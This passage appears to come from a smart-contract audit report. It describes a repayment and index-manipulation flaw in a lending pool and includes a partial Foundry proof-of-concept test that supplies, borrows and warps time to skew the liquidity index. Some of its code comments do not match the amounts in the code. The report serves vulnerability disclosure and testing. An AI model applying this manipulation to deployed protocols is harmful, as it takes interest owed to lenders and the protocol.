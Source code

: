 2. **Loss of funds for the protocol**: Malicious users can exploit this vulnerability by manipulating repayments. By making a small repayment to update the index and then repaying the rest, they can effectively reduce the debt owed to the protocol. Also, it should be mentioned that in this scenario user will not be able to fully repay the debt. This manipulation results in a loss of interest that should have been accrued, directly impacting the protocol's financial stability.


### PoC

Place the following test into `test/forge/core/pool/PoolWithdrawTests.t.sol`

```solidity
  function testUserBalanceWrong() external {

    address alice = address(1);
    address bob = address(2);

    uint256 mintAmountA = 1000 ether;
    uint256 mintAmountB = 2000 ether;
    uint256 supplyAmountA = 550 ether;
    uint256 supplyAmountB = 750 ether;
    // uint256 borrowAmountB = 100 ether;
    address john = address(3);
    uint256 mintAmountAJohn = 200 ether;

    _mintAndApprove(alice, tokenA, mintAmountA, address(pool)); // alice 1000 tokenA
    _mintAndApprove(john, tokenB, mintAmountAJohn, address(pool)); // john 10000 tokenA
    _mintAndApprove(bob, tokenB, mintAmountB, address(pool)); // bob 2000 tokenB

    vm.startPrank(alice);
    pool.supplySimple(address(tokenA), alice, supplyAmountA, 0); // 550 tokenA alice supply
    vm.stopPrank();

    vm.startPrank(bob);
    pool.supplySimple(address(tokenB), bob, supplyAmountB, 0); // 750 tokenB bob supply
    vm.stopPrank();

    vm.startPrank(alice);
    pool.borrowSimple(address(tokenB), alice, 10 ether, 0); // 10 tokenB alice borrow
    vm.stopPrank();

    DataTypes.ReserveData memory data1 = pool.getReserveData(address(tokenB));
    console.log("Liquidity index 1: ", data1.liquidityIndex);
    //first supply with index value 1
    vm.startPrank(john);
    pool.supplySimple(address(tokenB), john, 100 ether, 0); // 100 tokenB john supply
    vm.stopPrank();

    //manipulating the index
    vm.warp(block.timestamp + 365 days);
    vm.startPrank(alice);
    pool.borrowSimple(address(tokenB), alice, 10 ether, 0); // 10 tokenB alice borrow
    vm.stopPrank();

    DataTypes.ReserveData memory data2 = pool.getReserveData(address(tokenB));
    console.log("Liquidity index 2: ", data2.liquidityIndex);
    //second supply, with index value 2
    vm.startPrank(john);
    pool.supplySimple(address(tokenB), john, 100 ether, 0); // 200 tokenB john supply
    vm.stopPrank();

    //manipulating the index
    vm.warp(block.timestamp + 365 days);
    vm.startPrank(alice);
    pool.borrowSimple(address(tokenB), alice, 10 ether, 0); // 10 tokenB alice borrow
```